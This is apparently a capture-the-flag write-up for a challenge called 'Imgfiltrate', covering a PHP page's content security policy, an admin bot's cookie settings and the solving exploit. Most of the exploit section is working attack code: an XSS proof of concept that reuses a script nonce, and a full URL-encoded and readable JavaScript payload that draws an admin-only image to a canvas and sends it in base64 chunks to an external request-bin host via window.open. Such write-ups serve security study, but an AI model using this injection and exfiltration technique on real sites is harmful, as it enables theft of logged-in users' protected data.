 # Imgfiltrate

Can you yoink an image from the admin page?
> Hint: the cookie is set up for internal hostname of imgfiltrate.hub which the
> admin needs to use.

App: http://35.224.135.84:3200
Admin bot: http://35.224.135.84:3201



# Notes

## App
### /index.php
- Sets CSP to `default-src 'none'; img-src 'self'; script-src 'nonce-RANDVALUE';`
  - via CSP checker, base-uri is missing so we can inject <base> tags to mess
    with relative URLs if we can XSS
- Puts GET param of `name` on the page. This allows us to inject content.

### /flag.php
- Checks if cookie is set to TOKEN and if so, returns flag png

## Bot
### POST /visit { url: 'https://...' }
- Rate limits to 5/min
- Sets TOKEN cookie with sameSite strict and httpOnly true


# Attack Plan

- Tell bot to visit home page with injected XSS
- Exfil image value somehow lol (XSS-payloads.com?)
  Attempted exfil via iframe but SameSite breaks this

# Exploit


XSS PoC: http://35.224.135.84:3200?/?name=<script+nonce%3d70861e83ad7f1863b3020799df93e450>alert('xss')</script>
Exfill Exploit: http://imgfiltrate.hub/?name=%3cscript%20nonce%3d70861e83ad7f1863b3020799df93e450%3evar%20ex%20%3d%20function(b64)%20%7b%20var%20i%20%3d%200%3b%20var%20y%20%3d%200%3b%20var%20urls%20%3d%20%5b%5d%3b%20while(i%20%3c%20b64.length)%20%7b%20urls.push('https%3a%2f%2fenaq7r3pd5yua.x.pipedream.net%2f'%2by%2b'%2f'%2bb64.slice(i%2c%20i%2b1750))%3b%20i%2b%3d1750%3by%2b%2b%3b%7d%20urls.forEach(window.open)%3b%7d%3b%20var%20i%20%3d%20new%20Image()%3bi.onload%20%3d%20function()%7bvar%20c%3ddocument.createElement('canvas')%3bc.width%3di.width%3bc.height%3di.height%3bvar%20ctx%3dc.getContext('2d')%3bctx.drawImage(i%2c0%2c0)%3bvar%20b64%3dc.toDataURL('image%2fpng')%3bex(b64)%3b%7d%3bi.src%3d'http%3a%2f%2fimgfiltrate.hub%2fflag.php'%3b%3c%2fscript%3e
^ admin goes here

Manually combine base64 strings in CyberChef with RenderImage to get the image

This is full JS
```html
<script nonce=70861e83ad7f1863b3020799df93e450>
// Exfil function, window.open doesn't care about CSP
// We add the index into the URL since requestbin doesn't maintain consistent
// order so we need to pass that info over. 1750 is arbitrary but <2000 (general URL limit)
var ex = function(b64) { 
  var i = 0; var y = 0; var urls = []; 
  while(i < b64.length) { 
    urls.push('https://enaq7r3pd5yua.x.pipedream.net/'+y+'/'+b64.slice(i, i+1750)); 
    i+=1750;
    y++;
  } 
  urls.forEach(window.open);
}; 
var i = new Image();
i.onload = function(){
  var c=document.createElement('canvas');
  c.width=i.width;
  c.height=i.height;
  var ctx=c.getContext('2d');
  ctx.drawImage(i,0,0);
  var b64=c.toDataURL('image/png');
  ex(b64);
};
i.src='http://imgfiltrate.hub/flag.php';
</script>
```


<!-- https://datatracker.ietf.org/doc/html/draft-ietf-httpbis-cookie-same-site-00 -->
<!-- particularly document-bassed requests description of origin, sandboxing may work -->
